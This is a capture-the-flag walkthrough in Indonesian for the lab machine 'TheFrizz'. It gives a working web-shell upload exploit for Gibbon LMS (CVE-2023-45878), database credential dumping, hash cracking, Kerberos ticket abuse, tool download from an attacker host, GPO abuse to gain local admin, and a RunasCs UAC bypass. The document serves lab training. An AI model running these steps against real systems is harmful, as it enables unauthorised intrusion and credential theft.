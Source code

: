# TheFrizz Machine

![machine](./img/machine.jpg)

#### Nmap output
```bash
# Nmap 7.94SVN scan initiated Mon Apr 14 16:27:47 2025 as: nmap -sC -sV -T4 -oA nmap/thefrizz 10.129.38.25
Nmap scan report for 10.129.38.25
Host is up (0.082s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-title: Did not follow redirect to http://frizzdc.frizz.htb/home/
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-15 04:27:58Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Hosts: localhost, FRIZZDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-04-15T04:28:04
|_  start_date: N/A
|_clock-skew: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr 14 16:28:45 2025 -- 1 IP address (1 host up) scanned in 58.13 seconds
```


>**Penting!!!!**
Beberapa waktu saya stuck tidak bisa ke revshell, akhirnya setelah berdiskusi dengan teman dan melihat dengan seksama *-vvv* di ssh, saya dapat melewatinya.
CMIIW, nama domain frizzdc harus di urutan depan biar di resolve terlebih dahulu. Kerberos dan GSSAPI sensitif soal urutan dan nama domain. Kalau domain-nya salah atau urutannya ngaco, autentikasi bisa gagal total. Disinilah saya stuck beberapa waktu.

#### Tambahkan:
**/etc/hosts:**
```bash
10.129.38.25 frizzdc.frizz.htb frizz.htb
```

**/etc/krb5.conf**
```bash
[libdefaults]
    default_realm = FRIZZ.HTB
    dns_lookup_kdc = false

[realms]
FRIZZ.HTB = {
    kdc = 10.129.38.25
    admin_server = 10.129.38.25
}
```

**/etc/resolv.conf**
```bash
nameserver 10.129.38.25
```

Jangan lupa samakan waktu antara server dan kamu. 

```bash
sudo ntpdate -s 10.129.38.25
```

![gibbon](./img/gibbon.jpg)

Kita bisa liat versi gibbon lalu search di google atau di exploit-db tentang gibbon dan saya menemukan **CVE-2023-45878**

#### Upload shell:
```bash
curl -X POST "http://frizzdc.frizz.htb/Gibbon-LMS/modules/Rubrics/rubrics_visualise_saveAjax.php" \
-H "Host: frizzdc.frizz.htb" \
--data-urlencode "img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4K" \
--data-urlencode "path=shell.php" \
--data-urlencode "gibbonPersonID=0000000001"
```

Kalian dapat jalankan menggunakan curl ataupun dengan web
```bash
curl "http://frizzdc.frizz.htb/Gibbon-LMS/shell.php?cmd=whoami"
```

![shell](./img/shell.jpg)

Kalian bisa revshell dan akan mendapatkan file config.php

```bash
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';
```

```bash
C:\xampp\mysql\bin>.\mysql.exe -u MrGibbonsDB -p "MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E                                      
```
```bash
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E
*************************** 1. row ***************************                                                                                                                                                   
           gibbonPersonID: 0000000001                                                                                                                                                                                                      
                    title: Ms.                                                                                                                                                                                                             
                  surname: Frizzle                                                                                                                                                                                                         
                firstName: Fiona                                                                                                                                                                                                           
            preferredName: Fiona                                                                                                                                                                                                           
             officialName: Fiona Frizzle                                                                                                                                                                                                   
         nameInCharacters:                                                                                                                                                                                                                 
                   gender: Unspecified                                                                                                                                                                                                     
                 username: f.frizzle                                                                                                                                                                                                                                         
           passwordStrong: 067f746faca44f170c6cd9d7c4bdac6b******************                                                                                                                                                                              
       passwordStrongSalt: /aACFhikmN***********                                                                                                                                                                                                                          
       passwordForceReset: N
                   status: Full
                 canLogin: Y
      gibbonRoleIDPrimary: 001
          gibbonRoleIDAll: 001
                      dob: NULL
                    email: f.frizzle@frizz.htb
           emailAlternate: NULL
                image_240: NULL
            lastIPAddress: ::1
            lastTimestamp: 2024-10-29 09:28:59
        lastFailIPAddress: 10.10.16.26
        lastFailTimestamp: 2025-03-17 08:29:30
                failCount: 11
                 address1: 
         address1District: 
          address1Country: 
                 address2: 
```

Kita bisa crack menggunakan **john**

```bash
john --format=dynamic='sha256($s.$p)' --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


**Kredensial:**
```bash
f.frizzle:Jenni_****_Magic**
```

**Dapetin tiket:**
```bash
impacket-getTGT frizz.htb/'f.frizzle':'Jenni_****_Magic**' -dc-ip frizzdc.frizz.htb  

export KRB5CCNAME=f.frizzle.ccache
```

**Masuk ke ssh menggunakan ticket:**
```bash
ssh f.frizzle@frizz.htb -k
```

![gambar user.txt](./img/user.jpg)


Kita bisa gunakan bloodhound untuk melihat domain user lain, karena f.frizzle tidak memiliki privilege.

![bloodhound](./img/bloodhound.png)

Setelah mencari saya mendapatkan $RE2XMEG.7z, kita bisa extract dan mendapatkan sebuah password untuk **M.SchoolBus**.


**Dapetin tiket:**
```bash
impacket-getTGT frizz.htb/m.schoolbus:'password' -dc-ip frizzdc.frizz.htb


export KRB5CCNAME=M.SchoolBus.ccache
```

Masuk ke ssh nya
```bash
ssh M.SchoolBus@frizz.htb -K
```

Vulnerability yang ada di M.SchoolBus adalah SharpGpoAbuse


Kalian bisa download di

```bash
https://github.com/byronkg/SharpGPOAbuse
```

*Menambahkan gpo name:**

```bash
New-GPO -Name "hades" | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes
```

Nyalakan http.server python kalian, lalu download dari machine korban

```bash
Invoke-WebRequest -Uri "http://10.10.*.*/SharpGPOAbuse.exe" -OutFile "SharpGPOAbuse.exe"
```


**Lalu jalankan:**
```bash
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName hades                    

gpupdate /force
 ```

Namun tetap tidak dapat membaca root.txt, butuh RunasCs untuk melakukan nya


**Link RunasCs:**
```bash
https://github.com/antonioCoco/RunasCs
```


```bash
.\RunasCs.exe "M.SchoolBus" "password" "cmd /c type C:\Users\Administrator\Desktop\root.txt" --bypass-uac --logon-type '8' --force-profile
```

Enjoy The Flag......

> **akhirnya saya tahu kenapa machine ini walaupun medium, tapi mendapatkan rating 2.2, lmao.**
